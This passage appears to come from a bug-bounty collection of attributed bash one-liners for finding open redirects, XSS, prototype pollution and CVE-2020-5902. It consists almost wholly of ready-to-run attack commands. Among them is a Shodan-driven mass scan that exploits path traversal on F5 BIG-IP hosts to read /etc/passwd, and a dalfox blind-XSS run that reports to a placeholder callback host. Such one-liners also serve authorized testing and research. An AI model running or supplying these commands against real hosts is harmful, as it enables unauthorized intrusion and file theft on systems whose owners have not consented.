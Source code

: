 > @N3T_hunt3r
> 

```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null

```

### **XSS**

> @cihanmehmet
> 

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt

```

> @fanimalikhack
> 

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt

```

> @oliverrickfors
> 

```bash
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"

```

### **Prototype Pollution**

> @R0X4R
> 

```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"

```

### **CVE-2020-5902**

> @Madrobot_
> 

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done

```
